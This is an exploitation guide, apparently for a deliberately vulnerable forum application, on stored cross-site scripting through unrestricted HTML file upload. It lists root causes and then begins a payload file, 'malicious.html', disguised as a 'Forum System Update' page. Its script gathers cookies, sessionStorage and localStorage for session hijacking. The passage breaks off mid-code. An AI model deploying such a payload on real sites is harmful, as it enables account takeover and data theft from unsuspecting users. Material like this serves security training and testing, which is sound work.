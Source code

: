 # HTML XSS Stored Cookie Vulnerability - Exploitation Guide

## Overview
This document explains how to exploit the HTML file upload vulnerability that allows for Cross-Site Scripting (XSS) attacks with cookie theft capabilities in the vulnerable forum application.

## Vulnerability Details

### **Vulnerability Type**: Stored XSS via HTML File Upload
- **Risk Level**: CRITICAL
- **CVSS Score**: 9.6 (Critical)
- **Attack Vector**: Network
- **Impact**: Complete session hijacking, data theft, account takeover

### **Root Cause**
1. **Unrestricted File Upload**: Application accepts HTML files without validation
2. **Direct File Serving**: Uploaded HTML files are served directly from `/uploads/` directory
3. **No Authentication Required**: Files accessible without login
4. **No Content Security Policy**: No CSP headers to prevent script execution
5. **Same-Origin Execution**: HTML files execute in the same domain context

## Exploitation Steps

### **Step 1: Create Malicious HTML File**

Create a file named `malicious.html` with the following content:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Forum Update</title>
    <style>
        body { font-family: Arial, sans-serif; margin: 40px; background: #f5f5f5; }
        .container { max-width: 600px; margin: 0 auto; background: white; padding: 30px; border-radius: 8px; }
        .loading { text-align: center; color: #666; }
    </style>
</head>
<body>
    <div class="container">
        <h1>Forum System Update</h1>
        <div class="loading">
            <p>Please wait while we update your session...</p>
            <p>This page will redirect automatically.</p>
        </div>
    </div>

    <script>
        // XSS Payload - Cookie Theft and Session Hijacking
        console.log('XSS Payload Executing...');
        
        // Harvest all available data
        const harvestData = {
            // Session and authentication data
            cookies: document.cookie,
            sessionStorage: JSON.stringify(sessionStorage),
            localStorage: JSON.stringify(localStorage),
            
            // Browser and system information
```